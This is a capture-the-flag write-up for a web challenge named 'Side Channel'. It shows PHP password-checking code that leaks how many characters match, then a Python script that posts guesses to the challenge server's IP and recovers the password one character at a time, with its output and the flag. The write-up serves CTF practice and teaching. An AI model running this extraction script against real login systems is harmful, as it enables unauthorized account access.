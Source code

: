# Challenge Name: Side Channel


![date](https://img.shields.io/badge/date-14.03.2022-brightgreen.svg)  
![solved after CTF](https://img.shields.io/badge/solved-after%20CTF-red.svg)       
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-35-blue.svg)  

## Description

Created By **m4rc0s**

Now, some interesting bugs …

Every so often, you can find some bugs in the logic of the code, and occasionally, you can use time to extract the password.

**Code**

```php
  $password  = $_POST['password'];
    for ($i = 0; $i < min(strlen($real_password),strlen($password)); $i+=1) 
    {
        if($password[$i] == $real_password[$i]) 
        {
            $cpt++;
            sleep(1);
        }
        else 
        break;
    }
    if($cpt == strlen($real_password)) echo $FLAG;
    else echo "Incorrect Password, and you waited $cpt seconds";  
```

> Don't try brute-force

> You can solve the challenge manually or by using a script

> You can search Side Channel Attacks

http://18.132.195.71

[Acces to WebSite](http://18.132.195.71/)

## Detailed solution

Looking at the code we can see a for loop analyzing our input to compare it with password elements. 

```php
  $password  = $_POST['password'];
    for ($i = 0; $i < min(strlen($real_password),strlen($password)); $i+=1) 
    {
        if($password[$i] == $real_password[$i]) 
        {
            $cpt++;
            sleep(1);
        }
        else 
        break;
    }
    if($cpt == strlen($real_password)) echo $FLAG;
    else echo "Incorrect Password, and you waited $cpt seconds";  
```

- if we test a wrong charactere the page will return "you waited **0** seconds" 
  
![image](https://user-images.githubusercontent.com/72421091/158093241-993539d9-0216-4830-94a6-97161d45d961.png)

- if we have only one charactere right the page will return "you waited **1** seconds"

![image](https://user-images.githubusercontent.com/72421091/158093294-2b5d36de-301a-4906-b3ec-6ed2443a6658.png)

- after each charactere we found, the page will return you waited **X** seconds" with X equal to the size of our right input until the last charactere wich will return the **$FLAG**  

I created a python script to find the characters used in the password one by one. The funny thing i didn't now whats wrong for days until i realize that i forgot to add the  flag test cas :disappointed_relieved:

```python
import requests, string
from requests.structures import CaseInsensitiveDict

url = "http://18.132.195.71/"

headers = CaseInsensitiveDict()

headers["Connection"] = "keep-alive"
headers["Cache-Control"] = "max-age=0"
headers["Upgrade-Insecure-Requests"] = "1"
headers["Origin"] = "http://18.132.195.71"
headers["Content-Type"] = "application/x-www-form-urlencoded"
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"
headers["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"
headers["Referer"] = "http://18.132.195.71/"
headers["Accept-Language"] = "en-US,en;q=0.9,ar;q=0.8,fr;q=0.7"

t = 1
flag = ""

while(True):    
    for s in string.printable:
        tit = flag + s
        data = F"password={tit}"
        resp = requests.post(url, headers=headers, data=data)
        page = resp.content.decode("utf-8")
        if page.find(F"{t} seconds") != -1:
            flag += s
            print(flag)
            t = t+1
            break
        elif s == string.printable[-1]:
            print("Not found")
            exit()
        elif page.find("CRISIS{") != -1:
            flag += s
            print(F"the password is {flag}")
            print(page)
            exit()
```

Output

```
w
we
web
webs
webse
the password is websec
<html>
    <head>
       <meta charset="utf-8">
        <link rel="stylesheet" href="style.css" media="screen" type="text/css" />
    </head>
    <body>
        <div id="container">            
            <form action="" method="POST">
                <h3 class="text-center">Insert your Password</h3>
                
                <input type="text" placeholder="Enter the password" id=password name="password" required>

                <input type="submit" value="Submit">
            
            </form>
        </div>
    </body>
</html>

CRISIS{1c93286e3}
```
![image](https://user-images.githubusercontent.com/72421091/158093187-e2639b55-1627-41e5-8c81-5b031b395dc5.png)

## Flag

## Flag

```
CRISIS{1c93286e3}
```


